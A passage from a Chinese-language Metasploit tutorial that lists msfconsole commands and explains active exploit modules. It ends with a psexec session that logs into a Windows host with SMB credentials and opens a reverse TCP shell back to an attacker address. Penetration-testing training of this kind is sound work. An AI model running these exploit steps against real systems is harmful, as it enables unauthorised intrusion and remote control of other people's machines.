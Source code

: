 ```
|NOPS|显示可用的空指令|msf > show nops|
|popm| 从堆栈中推出最近的模块并激活该模块 |
|previous| 使用之前的一个模块作为当前模块|
|pushm| 将当前模块压入堆栈|
|quit|  退出当前shell|
|reload_all|使用已定义的模块路径重调用模块|
|rename_job|Rename a job|
|resource|运行可被msfconsole加载的资源文件|msf > resource|
|route| 通过session设置socket路由通过Route traffic through a session|
|save|  Saves the active datastores|
|search|按关键字查找模块和描述 |msf > search help|
|sessions|导出 session 列表和信息 |msf > sessions -h|
|set| 配置选项值|msf auxiliary(ms09_050_smb2) > set RHOST 172.16.194.134 |
|setg| 设置全局变量|msf > setg LHOST 192.168.1.101|
|show|  显示给定类型、所有模块 |msf > show|
|sleep| 按指定秒数睡眠一段时间 |
|spool| Write console output into a file as well the screen|
|TARGETS|显示当前模块可以针对的目标|msf  exploit(ms08_067_netapi) > show targets|
|threads|显示并操作后台线程|
|unset| 取消设置项|
|unsetg|取消全局设置项|
|use|按名称启用一个模块|msf > use dos/windows/smb/ms09_001_write|
|version|查看版本信息|

具体参考：https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

### 2.3 渗透模块（exploit）

Metasploit框架中的所有漏洞都将分为两类：
- 主动渗透 ACTIVE EXPLOITS
- 被动渗透 Passive EXPLOITS

#### ACTIVE EXPLOITS

主动渗透讲渗透某个主机，直至完成或退出。
- 当打开被攻击目标的某个shell时，暴力破解模块将退出。
- 如果遇到错误，模块执行将停止。
- 你可以通过使用参数“-j”强制一个主动模块到后台。

```shell
msf exploit(ms08_067_netapi) > exploit -j
[*] Exploit running as background job.
msf exploit(ms08_067_netapi) >

```

下面的例子展示了使用先前渗透成功后的shell：

```shell
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

```